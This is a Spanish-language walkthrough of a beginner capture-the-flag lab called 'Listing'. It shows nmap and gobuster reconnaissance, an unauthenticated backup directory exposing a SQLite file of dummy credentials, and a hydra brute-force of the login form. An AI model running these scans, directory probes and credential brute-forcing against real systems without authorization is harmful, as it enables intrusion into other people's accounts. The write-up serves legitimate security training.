

# Listing BugBountyLabs (Principiante)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip bugbountylabs_listing.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
python3 bugbountylabs_listing.py
```

Info:

```
██████╗ ██╗   ██╗ ██████╗     ██████╗  ██████╗ ██╗   ██╗███╗   ██╗████████╗██╗   ██╗    ██╗      █████╗ ██████╗ ███████╗
██╔══██╗██║   ██║██╔════╝     ██╔══██╗██╔═══██╗██║   ██║████╗  ██║╚══██╔══╝╚██╗ ██╔╝    ██║     ██╔══██╗██╔══██╗██╔════╝
██████╔╝██║   ██║██║  ███╗    ██████╔╝██║   ██║██║   ██║██╔██╗ ██║   ██║    ╚████╔╝     ██║     ███████║██████╔╝███████╗
██╔══██╗██║   ██║██║   ██║    ██╔══██╗██║   ██║██║   ██║██║╚██╗██║   ██║     ╚██╔╝      ██║     ██╔══██║██╔══██╗╚════██║
██████╔╝╚██████╔╝╚██████╔╝    ██████╔╝╚██████╔╝╚██████╔╝██║ ╚████║   ██║      ██║       ███████╗██║  ██║██████╔╝███████║
╚═════╝  ╚═════╝  ╚═════╝     ╚═════╝  ╚═════╝  ╚═════╝ ╚═╝  ╚═══╝   ╚═╝      ╚═╝       ╚══════╝╚═╝  ╚═╝╚═════╝ ╚══════╝

Fundadores
El Pingüino de Mario
Curiosidades De Hackers

Cofundadores
Zunderrub
CondorHacks
Lenam

Descargando la máquina listing, espere por favor...

[########################################] 100%
Descarga completa.
La IP de la máquina listing es -> 172.17.0.2

Presiona Ctrl+C para detener la máquina
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-27 10:01 CET
Nmap scan report for corsy.lab (172.17.0.2)
Host is up (0.000031s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Academia de Bases de Datos
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.65 seconds
```

Si entramos en la pagina no veremos gran cosa, por lo que vamos a realizar un poco de `fuzzing`.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 3358]
/login.php            (Status: 200) [Size: 1925]
/send                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos que tiene un `/login.php` si entramos veremos un `login` que dice lo siguiente:

<figure><figcaption></figcaption></figure>

Nuestro objetivo es encontrar las credenciales del `login`, si volvemos a la pagina principal e investigamos un poco el codigo veremos lo siguiente:

```html
<div class="container">
                <h2>Contacto</h2>
                <p>¿Tienes dudas? Contáctanos para más información.</p>
                <form action="/send/backup_recovery/formulario.php" method="POST">
                    <label for="nombre">Nombre:</label>
                    <input type="text" id="nombre" name="nombre" required>

                    <label for="email">Correo Electrónico:</label>
                    <input type="email" id="email" name="email" required>

                    <label for="mensaje">Mensaje:</label>
                    <textarea id="mensaje" name="mensaje" rows="5" required></textarea>

                    <button type="submit">Enviar</button>
                </form>
            </div>
```

Vemos que hay una ruta llamada:

```html
<form action="/send/backup_recovery/formulario.php" method="POST">
```

Parece ser que es donde guarda los archivos, vamos a comprobar si tuviera un fallo de seguridad y pudiera entrar sin ningun tipo de autenticacion.

```
URL = http://<IP>/send/backup_recovery/
```

Si entramos aqui, veremos lo siguiente:

<figure><figcaption></figcaption></figure>

Vemos que ha funcionado y observamos un archivo llamado `backup.sql`, nos lo descargamos y vamos a observarlo con una herramienta llamada `sqlite3`:

## sqlite3

```shell
sqlite3 backup.sql
```

Vamos a enumerar las tablas:

```sql
.tables
```

Info:

```
recuperacion
```

Ahora vamos a seleccionar toda la informacion de dicha tabla:

```sql
select * from recuperacion;
```

Info:

```
user1|password123
user2|securepass456
user3|mypassword789
admin|adminsecurepass
guest|guestpassword
testuser|test123
johndoe|johndoe2023
janedoe|janesecure!@#
user4|password492
user5|password615
user6|password738
user7|password861
user8|password984
user9|password1107
user10|password1230
user11|password1353
user12|password1476
user13|password1599
user14|password1722
user15|password1845
user16|password1968
user17|password2091
user18|password2214
user19|password2337
user20|password2460
user21|password2583
user22|password2706
user23|password2829
user24|password2952
user25|password3075
user26|password3198
user27|password3321
user28|password3444
user29|password3567
user30|password3690
user31|password3813
user32|password3936
user33|password4059
user34|password4182
user35|password4305
user36|password4428
user37|password4551
user38|password4674
user39|password4797
user40|password4920
user41|password5043
user42|password5166
user43|password5289
user44|password5412
user45|password5535
user46|password5658
user47|password5781
user48|password5904
user49|password6027
user50|password6150
user51|password6273
user52|password6396
user53|password6519
user54|password6642
user55|password6765
user56|password6888
user57|password7011
user58|password7134
user59|password7257
user60|password7380
user61|password7503
user62|password7626
user63|password7749
user64|password7872
user65|password7995
user66|password8118
user67|password8241
user68|password8364
user69|password8487
user70|password8610
user71|password8733
user72|password8856
user73|password8979
user74|password9102
user75|password9225
user76|password9348
user77|password9471
user78|password9594
user79|password9717
user80|password9840
user81|password9963
user82|password10086
user83|password10209
user84|password10332
user85|password10455
user86|password10578
user87|password10701
user88|password10824
user89|password10947
user90|password11070
user91|password11193
user92|password11316
user93|password11439
user94|password11562
user95|password11685
user96|password11808
user97|password11931
user98|password12054
user99|password12177
user100|password12300
```

Vemos que hemos obtenido muchisimos usuarios y contraseñas, por lo que vamos a limpiar un poco dicho archivo y dejarlo preparado para hacer un `users.txt` y un `passwords.txt`, y realizar fuerza bruta a dicho formulario de `login` con `hydra`.

Vamos a guardar todas esas credenciales en un archivo llamado `credenciales.txt` para realizar lo siguiente:

> Extraer solo los usuarios

```shell
cut -d '|' -f1 credenciales.txt > users.txt
```

> Extraer solo las passwords

```shell
cut -d '|' -f2 credenciales.txt > passwords.txt
```

Una vez echo esto, vamos a dar paso a la fuerza bruta.

## Hydra

```shell
hydra -L users.txt -P passwords.txt <IP> http-post-form "/login.php:username=^USER^&password=^PASS^:Credenciales incorrectas"
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-27 10:23:12
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11025 login tries (l:105/p:105), ~690 tries per task
[DATA] attacking http-post-form://172.17.0.2:80/login.php:username=^USER^&password=^PASS^:Credenciales incorrectas
[STATUS] 3233.00 tries/min, 3233 tries in 00:01h, 7792 to do in 00:03h, 16 active
[STATUS] 3976.00 tries/min, 7952 tries in 00:02h, 3073 to do in 00:01h, 16 active
[80][http-post-form] host: 172.17.0.2   login: user80   password: password9840
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-27 10:25:51
```

Despues de un rato, vemos que hemos encontrado las credenciales:

```
User: user80
Pass: password9840
```

Ahora las probaremos en el `login`, una vez iniciado sesion con dichas credenciales veremos lo siguiente:

<figure><figcaption></figcaption></figure>

Con esto ya habremos completado la maquina y aprovechado la vulnerabilidad `BAC`.
